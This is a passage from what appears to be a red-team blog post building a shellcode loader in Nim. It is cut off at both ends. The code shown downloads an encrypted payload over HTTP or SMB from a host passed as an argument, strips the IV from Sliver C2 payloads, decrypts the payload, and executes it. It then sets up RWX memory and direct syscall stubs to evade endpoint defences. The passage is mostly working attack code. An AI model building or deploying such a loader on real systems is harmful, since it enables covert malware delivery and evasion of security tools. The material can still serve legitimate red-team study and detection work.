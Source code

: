             var client = newHttpClient()
            var url = "http://" & $paramStr(4) & ":" & $paramStr(5) & "/" & $paramStr(6)
            var response: string = client.getContent(url) 
            shellcode = 
            toByteSeq(response)

            #If Sliver remove the iv from first 16 bytes
            if ($paramStr(1) == "sliver"):                 
                for i in 16  ..< shellcode.len:
                    actual.add(shellcode[i])
            
            shellcode = 
            decrypt(actual,key,iv)                   
            runShellcode(shellcode)      
        
        #Download the payload over smb  
        elif ($paramStr(3) == "smb"):
            let filename = "\\\\" & $paramStr(4) & "\\" & $paramStr(5) & "\\" & $paramStr(6)
            var file: FILE = open(filename, fmRead)
            var length = file.getFileSize()
            var shellcode = newSeq[byte](length)
            discard file.readBytes(shellcode, 0, length)
            
            #If Sliver remove the iv from first 16 bytes
            if ($paramStr(1) == "sliver"):                 
                for i in 16  ..< shellcode.len:
                    actual.add(shellcode[i])
                shellcode = decrypt(actual,key,iv)
            runShellcode(shellcode)
{% endhighlight %}

### Coding - Shellcode Running via Syscalls

Now that I have my shellcode received over the network from my main method, I needed to call the 4 methods mentioned earlier to get my Shellcode into memory. I created the runShellcode method as shown below which uses a GetSysCallStub module developed by Fabian aka [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/NimGetSyscallStub).

{% highlight powershell %} 
proc runShellcode(shellcode: seq[byte]): void =

    var SYSCALL_STUB_SIZE: int = 23;
    var cid: CLIENT_ID
    var oa: OBJECT_ATTRIBUTES
    var pHandle: HANDLE
    var tHandle: HANDLE
    var ds: LPVOID
    var sc_size: SIZE_T = cast[SIZE_T](shellcode.len)

    cid.UniqueProcess = GetCurrentProcessId()

    let cProcess = GetCurrentProcessId()
    var pHandle2: HANDLE = OpenProcess(PROCESS_ALL_ACCESS, FALSE, cProcess)

    let syscallStub_NtOpenP = VirtualAllocEx(pHandle2,NULL,cast[SIZE_T](SYSCALL_STUB_SIZE), MEM_COMMIT, PAGE_EXECUTE_READ_WRITE)

    var syscallStub_NtAlloc:  HANDLE = cast[HANDLE](syscallStub_NtOpenP) + cast[HANDLE](SYSCALL_STUB_SIZE)
    var syscallStub_NtWrite:  HANDLE = cast[HANDLE](syscallStub_NtAlloc) + cast[HANDLE](SYSCALL_STUB_SIZE)
    var syscallStub_NtCreate: HANDLE = cast[HANDLE](syscallStub_NtWrite) + cast[HANDLE](SYSCALL_STUB_SIZE)

    var oldProtection: DWORD = 0

    # define NtOpenProcess
    var NtOpenProcess: myNtOpenProcess = cast[myNtOpenProcess](cast[LPVOID](syscallStub_NtOpenP));